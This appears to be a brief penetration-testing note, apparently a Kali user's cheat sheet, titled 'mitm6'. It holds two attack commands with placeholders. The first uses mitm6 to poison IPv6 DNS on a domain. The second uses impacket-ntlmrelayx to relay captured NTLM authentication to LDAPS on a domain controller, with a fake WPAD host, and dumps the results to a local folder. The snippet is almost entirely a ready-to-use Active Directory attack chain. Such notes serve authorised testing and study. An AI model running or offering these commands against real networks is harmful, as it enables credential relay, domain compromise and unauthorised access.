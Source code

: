 mitm6

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
mitm6 -d [domain].[ext]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
impacket-ntlmrelayx -6 -t ldaps://[domain controller ip] -wh nullwpad.[domain].[ext] -l /home/kali/Working/enumeration/mitm6_dump
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

